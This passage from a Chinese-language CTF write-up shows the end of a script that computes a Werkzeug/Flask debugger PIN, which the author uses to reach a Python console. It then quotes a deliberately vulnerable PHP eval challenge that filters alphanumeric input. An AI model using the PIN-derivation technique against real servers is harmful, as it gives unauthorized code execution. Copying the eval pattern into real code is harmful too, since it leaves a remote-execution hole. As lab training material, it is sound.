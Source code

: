 ```python
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num
print(rv)

#输出: 961-361-247
```

在报错页面输入pin之后,成功进入python的交互页面:

![image-20221024164345369](/images/buuctf-web2/image-20221024164345369.png)



<br>

***

<br>

# [无字母数字rce,disable_function绕过]RCE ME

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```
